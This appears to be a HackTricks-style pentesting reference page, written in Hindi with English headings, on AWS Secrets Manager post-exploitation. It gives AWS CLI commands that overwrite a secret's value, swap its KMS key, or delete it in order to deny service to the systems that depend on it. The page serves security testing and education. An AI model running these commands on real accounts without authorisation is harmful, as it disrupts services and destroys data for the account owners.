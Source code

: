 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

**गुप्त जानकारी स्वयं संवेदनशील होती है**, [प्रिवेस्क पृष्ठ देखें](../aws-privilege-escalation/aws-secrets-manager-privesc.md) यह जानने के लिए कि उन्हें कैसे पढ़ें।

### DoS Change Secret Value

गुप्त के मान को बदलने से आप **उस मान पर निर्भर सभी सिस्टम को DoS कर सकते हैं।**

> [!WARNING]
> ध्यान दें कि पिछले मान भी संग्रहीत होते हैं, इसलिए पिछले मान पर वापस जाना आसान है।
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS KMS कुंजी बदलें
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret को हटाना

एक रहस्य को हटाने के लिए न्यूनतम दिनों की संख्या 7 है
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
{{#include ../../../banners/hacktricks-training.md}}
